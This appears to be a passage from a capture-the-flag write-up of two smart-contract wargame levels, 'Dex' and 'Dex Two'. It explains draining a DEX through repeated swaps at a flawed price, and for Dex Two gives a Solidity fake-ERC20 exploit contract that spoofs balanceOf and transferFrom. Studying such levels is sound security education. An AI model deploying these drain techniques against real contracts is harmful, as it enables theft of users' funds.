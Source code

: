 And that clears the level!

# Dex
This exploit relies on the Dex's incorrect pricing function.
We start with 10 of each token and the Dex with 100 of each token.

In our first swap we can exchange 10 of token 1 for 10 of 
token 2 (you can verify this with the `get_swap_price`) function.
This leaves the Dex with 110 of t1 and 90 of t2.

In our second swap we can exchange 10 of t2 for ~12.22 t1.
This leaves the Dex with 97.78 of t1 and 102.22 of t2.

In our third swap we can exchange 12.22 t1 for 12.77 t2.

Each time it swaps it gives us the price of x tokens for what should
really just be the price of the first token. A good DEX would increase
the price with each successive token exchange as the scarcity of the
token received increases.

But because of this flawed pricing function we obtain a token amount larger than
what we put in in each successive swap. Many repeated swaps can drain the contract.

You can either write a contract to automate this or swap directly from the browser
console.

And that clears the level!

# Dex Two
`DexTwo` is identical to `Dex` except it's missing the first require statement
in the swap function:

```
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

Dex Two isn't actually checking that `from` and `to` are the same tokens the
contract was initialized with! We can exploit this Dex by substituting our
malicious `ERC20` contract as the `from` token.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

contract DexTwoExploit is ERC20 {
    address public immutable dex;

    constructor(string memory _name, string memory _symbol, address _dex) ERC20(_name, _symbol) {
        dex = _dex;
    }

    function balanceOf(address account) public view override returns (uint256) {
        return 100;
    }

    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        return true;
    }
}
```
